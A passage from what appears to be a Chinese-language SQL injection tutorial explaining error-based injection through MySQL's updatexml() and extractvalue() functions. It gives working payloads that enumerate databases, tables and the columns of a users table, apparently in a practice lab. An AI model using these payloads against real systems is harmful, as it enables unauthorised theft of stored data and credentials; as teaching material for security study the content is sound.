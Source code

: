     利用利用上述特性，我们可以下面的语句获取信息：

    获取所有数据库

    ```SQL
    SELECT username, password FROM users WHERE id = 1 and
    updatexml(1,concat('~',
            substr( 
                    (select group_concat(schema_name)
                    from information_schema.schemata)
            , 1 , 31)
    ),3)
    ```

    获取所有表

    ```SQL
    SELECT username, password FROM users WHERE id = 1 and
    updatexml(1,concat('~',
            substr( 
                    (select group_concat(table_name)
                    from information_schema.tables
                    where table_schema = 'security')
            , 1 , 31)
    ),3)
    ```

    获取所有字段

    ```SQL
    SELECT username, password FROM users WHERE id = 1 and
    updatexml(1,concat('~',
            substr( 
                    (select group_concat(column_name)
                    from information_schema.columns
                    where table_schema = 'security' and table_name = 'users')
            , 1 , 31)
    ),3)
    ```
*   `extractvalue()`

    `extractvalue()`是MySQL中的一个XML处理函数，它用于从XML格式的数据中提取指定节点的值。

    正常情况下他的语法如下：

    ```sql
    EXTRACTVALUE(xml_target, xpath_expr)
    ```

    其中，`xml_target`是要提取节点值的XML数据，`xpath_expr`是要提取的节点路径。

    它用于报错注入的方法其实和 `updatexml()` 函数的使用方法差不多 但是参数少一个x

    ![image-20230505015028726](https://nssctf.wdf.ink/img/WDTJ/202305050150790.png)

而且报错信息长度限制也和`updatexml()` 一样，所以这里就不多做赘述。
